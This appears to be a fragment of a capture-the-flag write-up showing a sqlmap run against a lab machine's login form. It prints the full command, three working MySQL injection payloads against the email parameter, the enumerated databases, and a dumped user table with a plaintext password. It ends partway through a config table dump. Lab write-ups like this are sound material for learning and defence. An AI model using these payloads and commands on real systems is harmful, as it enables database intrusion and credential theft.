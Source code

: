 

# Using Sqlmap

```shell
╰─ sqlmap -r req --batch --dump --tamper=space2comment --random-agent --level 2 --risk 2 --dbs

sqlmap identified the following injection point(s) with a total of 821 HTTP(s) requests:                              
---                                                                                                                                                                                                                                          
Parameter: email (POST)                                                                                               
    Type: boolean-based blind                                                                                         
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)                                                                                                                                         
    Payload: email=hacker@root.thm' AND EXTRACTVALUE(9212,CASE WHEN (9212=9212) THEN 9212 ELSE 0x3A END) AND 'zKBc'='zKBc&password=hacker                                                                                                    
                                                                                                                      
    Type: error-based                                                                                                 
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)                                                                                                                                           
    Payload: email=hacker@root.thm' AND GTID_SUBSET(CONCAT(0x7171717071,(SELECT (ELT(3316=3316,1))),0x71766b7071),3316) AND 'zNKZ'='zNKZ&password=hacker                                                                                     
                                                                                                                                                                                                                                             
    Type: time-based blind                                 
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=hacker@root.thm' AND (SELECT 6032 FROM (SELECT(SLEEP(5)))ajDd) AND 'TGtK'='TGtK&password=hacker
---                                                        

available databases [6]:                                   
[*] expose                                                 
[*] information_schema                                     
[*] mysql                                                  
[*] performance_schema                                     
[*] phpmyadmin                                             
[*] sys                                                    

[19:30:55] [INFO] retrieved: 'hacker@root.thm'
[19:30:55] [INFO] retrieved: '1'
[19:30:56] [INFO] retrieved: 'VeryDifficultPassword!!#@#@!#!@#1231'
Database: expose                                           
Table: user                                                
[1 entry]                                                  
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+

Database: expose                                                                                                                                                                                                                             
Table: config                                              
[2 entries]                                                
```